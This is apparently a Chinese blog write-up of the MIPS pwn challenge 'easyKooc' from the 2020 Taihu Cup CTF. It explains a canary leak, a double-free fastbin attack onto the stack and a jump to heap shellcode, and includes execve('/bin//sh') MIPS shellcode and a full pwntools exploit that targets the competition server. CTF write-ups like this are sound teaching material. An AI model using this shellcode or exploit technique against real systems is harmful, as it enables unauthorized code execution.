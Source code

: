 ```yaml
---
layout:     post
title:      太湖杯2020 easyKooc wp
subtitle:   记太湖杯2020的一道mips题
date:       2020-11-08
author:     X1ng
header-img: 太湖杯2020.jpg
catalog: true
tags:
    - 太湖杯
    - wp

---
```


看到物联网ctf，还以为会是各种裸机程序、RTOS的题目，，然而pwn好像也都是堆题or2，然而我太菜了只出了一题mips签到

菜鸡落泪

例行检查

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkhs0r2ec6j313808macq.jpg)

开启了 和canary保护，mips下不支持NX保护，所以这里的NX开不开都是一样的

用ghidra打开查看反汇编代码

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkhs0gpvyrj30u013bafh.jpg)

一开始会送一个gift，就是栈的地址

可以直接看到第三个分支是向栈上写入一些内容，然后把输入的内容用printf输出一遍，动调发现有栈溢出

add函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkhs2thtscj30w80oc763.jpg)

只能申请0x38大小的chunk，在分配chunk前并不会清空chunk中的信息，然后会用write函数输出一遍chunk中的内容

delete函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkhs3011nrj30vo0hc0tm.jpg)

delete存在uaf漏洞

看到这里思路就是通过栈溢出覆盖canary低位的`\x00`来泄露canary，然后在栈上构造`0x00000041`让栈满足fastbin的分配条件，由于栈的地址已经给出，double free将chunk分配到栈上，就可以实现rop

突然发现mips上的rop跟x86下的不太一样，用来找rop的ida脚本装不好，mips指令也没有搞得很明白（菜鸡再次落泪），所以最后还是决定用申请fastbin时候只输入`\n`，利用chunk上残留的fd泄露堆地址，然后把shellcode写在堆地址中，覆盖返回地址为堆地址

但是pwntools里`shellcraft.mips.sh()`生成的shellcode太长，然后面向互联网编写exp，在[ctf-wiki](https://ctf-wiki.github.io/ctf-wiki//pwn/linux/mips/mips_rop-zh/)上找了一段0x30长度的shellcode

```python
shellcode  = b""

shellcode += b"\xff\xff\x06\x28"  # slti $a2, $zero, -1

shellcode += b"\x62\x69\x0f\x3c"  # lui $t7, 0x6962

shellcode += b"\x2f\x2f\xef\x35"  # ori $t7, $t7, 0x2f2f

shellcode += b"\xf4\xff\xaf\xaf"  # sw $t7, -0xc($sp)

shellcode += b"\x73\x68\x0e\x3c"  # lui $t6, 0x6873

shellcode += b"\x6e\x2f\xce\x35"  # ori $t6, $t6, 0x2f6e

shellcode += b"\xf8\xff\xae\xaf"  # sw $t6, -8($sp)

shellcode += b"\xfc\xff\xa0\xaf"  # sw $zero, -4($sp)

shellcode += b"\xf4\xff\xa4\x27"  # addiu $a0, $sp, -0xc

shellcode += b"\xff\xff\x05\x28"  # slti $a1, $zero, -1

shellcode += b"\xab\x0f\x02\x24"  # addiu;$v0, $zero, 0xfab

shellcode += b"\x0c\x01\x01\x01"  # syscall 0x40404
```

后面又发现一些小问题，本地io和远程io又有点不一样导致远程没办法接收堆地址，然后发现每次泄露传回来的地址都一样，才想起来alsr直接是关闭的，连堆地址都是固定的了

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkhsmd535uj30o6086jsx.jpg)

所以直接将shellcode传入第一个chunk，返回地址覆盖成`0x413008`，把canary修复后正常退出即可getshell

exp:

```python
from pwn import*
import sys

context.binary = "easyKooc"
context.arch='mips'
context.log_level = "debug"

if sys.argv[1] == "r":
    p = remote("121.36.166.138", 8890)# 
elif sys.argv[1] == "l":
    p = process(["qemu-mipsel-static", "-L", "./mipsel-linux-gnu", "./easyKooc"])
else:
    p = process(["qemu-mipsel-static", "-g", "1237", "-L", "./mipsel-linux-gnu", "./easyKooc"])


ru=lambda x:p.recvuntil(x)
rc=lambda x:p.recv(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda : p.interactive()

def add(idx,con):
	ru('your choice')
	sl('1')
	ru('todo id!')
	sl(str(idx))
	ru('content')
	sl(con)

def delete(idx):
	ru('your choice')
	sl('2')
	ru('todo id!')
	sl(str(idx))

def show(idx):
	ru('>>')
	sl('4')
	ru('show:')
	sl(str(idx))

def edit(idx,con):
	ru('your choice')
	sl('3')
	ru('leave?')
	sl(str(idx))
	ru('info:')
	sl(con)

shellcode = "\xff\xff\x06\x28"  # slti $a2, $zero, -1

shellcode += "\x62\x69\x0f\x3c"  # lui $t7, 0x6962

shellcode += "\x2f\x2f\xef\x35"  # ori $t7, $t7, 0x2f2f

shellcode += "\xf4\xff\xaf\xaf"  # sw $t7, -0xc($sp)

shellcode += "\x73\x68\x0e\x3c"  # lui $t6, 0x6873

shellcode += "\x6e\x2f\xce\x35"  # ori $t6, $t6, 0x2f6e

shellcode += "\xf8\xff\xae\xaf"  # sw $t6, -8($sp)

shellcode += "\xfc\xff\xa0\xaf"  # sw $zero, -4($sp)

shellcode += "\xf4\xff\xa4\x27"  # addiu $a0, $sp, -0xc

shellcode += "\xff\xff\x05\x28"  # slti $a1, $zero, -1

shellcode += "\xab\x0f\x02\x24"  # addiu;$v0, $zero, 0xfab

shellcode += "\x0c\x01\x01\x01"	 # syscall 0x40404


ru('motto!')
sl(shellcode)
ru('gift for you: 0x')
stack = int(p.recv(8),16)
print hex(stack)

ru('your choice')
sl('3')
ru('to leave?')
sl('a'*0x20)
ru('The message for you is ')
rc(0x21)
canary = u32(rc(3).rjust(4,'\x00'))
print hex(canary)

add(1,'a')
add(2,'b')
add(3,'c')
#add(4,'d')
delete(1)
delete(2)
delete(1)

ru('your choice')
sl('3')
ru('to leave?')
sd('a'*0x1c+p32(0)+p32(0x41))

add(4,p32(stack+0x24))
add(5,'')
#p.recvline()
#heap = u32(rc(0x3a)[0x12:0x15].rjust(4,'\x08'))
#print hex(heap) #失败的io
add(6,'')

ru('your choice')
sl('1')
ru('todo id!')
sl('7')
ru('content')
#sd('A'*4+'B'*4+'C'*4+'D'*4+'E'*4+'F'*4+'G'*4+'H'*4+'I'*4+'J'*4+'K'*4+'L'*4+'M'*4+'N'*4)
#sd('A'*4+p32(heap)+'C'*4+'D'*4+'E'*4+'F'*4+'G'*4+'H'*4+'I'*4+'J'*4+'K'*4+'L'*4+'M'*4+'N'*4)
sd('A'*4+p32(0x413008)+'C'*4+'D'*4+'E'*4+'F'*4+'G'*4+'H'*4+'I'*4+'J'*4+'K'*4+'L'*4+'M'*4+'N'*4)
ru('your choice')
sl('3')
ru('to leave?')
sd('b'*0x20+p32(canary))


ia()
```

